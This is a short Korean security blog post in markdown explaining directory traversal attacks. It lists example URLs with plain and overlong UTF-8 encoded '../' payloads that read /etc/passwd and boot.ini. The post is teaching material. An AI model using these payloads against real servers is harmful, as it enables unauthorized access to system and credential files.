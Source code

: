 ```yaml
---
layout: post
title: '[위협] Directory_Traversal'
subtitle: 'threat, directory, traversal'
categories: threat
tags: web
comments: true
---
```


> 이 글은 웹 취약점을 분석한 글입니다. 

# Directory_Traversal 

디렉토리 접근 공격

웹 브라우저에서 확인 가능한 경로의 상위로 올라가서 특정 시스템 파일을 접근하는 공격 

경로설정 문자는 유니코드(UTF-8)로 인코딩한다

```xml
1. hxxp://www.example.com/shop.php?html=product../../../../../../../etc/passwd

2. hxxp://www.example.com/%c0%2e%c0%2e%5c%c0%2e%c0%2e%5c%c0%2e%c0%2e%5cboot.ini
2. hxxp://www.example.com/..\..\..\boot.ini

3. hxxp://www.example.com/%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cboot.ini
3. hxxp://www.example.com/......boot.ini

4. hxxp://www.example.com/%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/boot.ini
4. hxxp://www.example.com/../../../boot.ini

5. hxxp://www.example.com/%c0%2e%c0%2e\%c0%2e%c0%2e\%c0%2e%c0%2e\boot.ini
5. hxxp://www.example.com/..\..\..\boot.ini
```
